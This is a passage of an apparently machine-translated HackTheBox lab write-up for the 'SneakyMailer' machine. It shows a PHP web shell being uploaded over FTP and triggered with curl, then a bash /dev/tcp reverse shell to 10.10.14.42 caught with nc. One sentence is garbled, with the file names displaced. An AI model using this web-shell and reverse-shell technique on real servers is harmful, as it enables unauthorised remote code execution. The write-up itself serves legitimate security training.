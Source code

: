     ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 0        0            4096 May 26 19:52 css
    drwxr-xr-x    2 0        0            4096 May 26 19:52 img
    -rwxr-xr-x    1 0        0           13742 Jun 23 09:44 index.php
    drwxr-xr-x    3 0        0            4096 May 26 19:52 js
    drwxr-xr-x    2 0        0            4096 May 26 19:52 pypi
    drwxr-xr-x    4 0        0            4096 May 26 19:52 scss
    -rwxr-xr-x    1 0        0           26523 May 26 20:58 team.php
    drwxr-xr-x    8 0        0            4096 May 26 19:52 vendor
    226 Directory send OK.
    

我收集了三个 PHP 文件（、、 和 ）。他们实际上都没有任何动态内容。`index.php``team.php``pypi/register.php`

#### 上传网页外壳

事实证明，这个帐户可以写在这里。我将上传一个简单的网络外壳：

    ftp> put /opt/shells/php/cmd.php 0xdf.php
    local: /opt/shells/php/cmd.php remote: 0xdf.php
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.
    35 bytes sent in 0.00 secs (26.7656 kB/s)
    

我可以触发它并获得执行：

    root@kali# curl http://dev.sneakycorp.htb/0xdf.php --data-urlencode "cmd=id"
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

显然有一个cron正在清理开发目录，因为网络外壳将被快速删除。

#### 壳

我将触发网络外壳以获取交互式 shell：

    root@kali# curl http://dev.sneakycorp.htb/0xdf.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.42/443 0>&1'"
    

`nc`获取连接：

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:54094.
    bash: cannot set terminal process group (661): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
